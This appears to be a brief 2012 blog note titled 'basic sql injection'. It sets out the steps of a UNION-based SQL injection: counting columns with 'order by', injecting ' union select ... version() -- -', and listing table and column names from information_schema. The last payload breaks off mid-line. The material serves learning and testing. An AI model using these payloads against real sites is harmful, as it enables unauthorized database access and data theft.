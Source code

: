 ```yaml
---
title: "basic sql injection"
date: 2012-10-04 17:18:44
tags: sql sql injection
---
```


<p>
{% highlight sql %}
SELECT user
FROM users 
WHERE user.name = 'jeffrey';
{% endhighlight %}


1. FIND NUMBER OF COLUMNS
	"order by" trick - test if you can order by a column number
2. NOW WE CAN DO A UNION (# OF COLUMNS MUST MATCH)
	' union select 1,2,3,version() -- -
3. NOW WE CAN GET TABLE, COLUMN, AND DATABASE INFO
	' union select 1,2,3,table_name from information_schema.tables where table_schema="x8250" -- -
  ' union select 1,2,3,column_name from information_schema.columns where table...
</p>
